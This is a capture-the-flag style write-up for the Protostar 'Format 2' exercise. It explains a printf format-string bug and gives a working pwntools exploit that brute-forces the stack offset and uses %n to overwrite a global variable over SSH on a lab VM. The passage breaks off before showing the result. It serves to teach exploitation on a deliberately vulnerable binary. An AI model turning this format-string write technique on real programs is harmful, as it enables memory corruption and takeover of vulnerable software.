

# Format 2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
    
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}

```

goal : overwrite target with the value 64

The format string vulnerability occurs in the vuln function, more precisely in the call of printf.
Since we control the char buffer , we can inject format specifier to leak value/address on the stack.


The code is very similar to the last challenge but there is a minor difference, actually 
target need to be precisely 64.


In the previous challenge i explain how to abuse of format string vulnerability to overwrite value on the stack.

The idea is to find the position on the stack, "buffer" that we are controlling , to do so we will use a recognizable caracters like AAAA (pattern).
If we can find 41414141 in the stack, it mean we are now pointing at the start of "buffer". 
In this case we are going to overwrite 41414141 by the address of "target" and then write at this memory location.

We are going to use the format specifier "%n" to write at a specific address, in our case we want to write 64 at &target. (address of target).


## Tips and tricks: 

%64x will padd with 64 caracters (spaces + what is found on the stack in hex) in buffer

%64x => we are going to add a padding of 64  caracters (spaces + what is found on the stack in hex) before printing the value :
ex :  
```c
#include <stdio.h>

int main(){

    printf("%64xHello");
}
Output: 
                                                        ffffd134Hello

|----------------------------------------------------------------|  after 64 bytes Hello

```

%3$x => print the 3rd argument
ex: 
printf("%3$x", 1,44,10);  // the output will be 0xa which  is 10 in decimal


Let's find the address of "target"

## Address of target : 

```bash
user@protostar:~$ objdump -t /opt/protostar/bin/format2 | grep target
080496e4 g     O .bss	00000004              target

```

080496e4 => let's convert it in little endian format  \xe4\x96\x04\x08  


# payload 

```python


from pwn import *


r = ssh(host="192.168.160.128", user="user", password="user")

target_addr ="\xe4\x96\x04\x08"

position_stck=0
#padding='A'*56  # padding of A 
# or 
padding = "%56x"  # padding of spaces
for i in range(100):
    payload = 'AAAABBCC%{}$p'.format(i)  #  pattern to find  (due to memory alignement our pattern is not just AAAA) 
    format2=r.run(["/opt/protostar/bin/format2"])
    format2.sendline(payload)
    output = format2.recvline().decode()
    if "41414141" in output: # if we found AAAA it means we are pointing at the start of buffer
        print("control stack address :" ,i , output )
        position_stck=i # save the position of it 
        format2.close()

        payload2 = '{}BBCC{}%{}$8n'.format(target_addr, padding , position_stck) 
        # we are juste replacing our pattern by the address of "target" at the start of "buffer"
        # padding : since printf will print  BBCC ,which is 4 bytes and \xe4\x96\x04\x08 the address of target (also 4 bytes)  we have currently 8 bytes
        # we need to add 64-8 = 56 caracters to print 64 caracters and since %n write the number of caracters printed by printf
        # our payload is :  \xe4\x96\x04\x08 + BBCCC + "%56x"  +  %postion$8n 
        print(payload2)
        format2=r.run(["/opt/protostar/bin/format2"])
        format2.sendline(payload2)
        print(str(format2.recv()))
        format2.close()
        break

```

We lauch the payload and ...


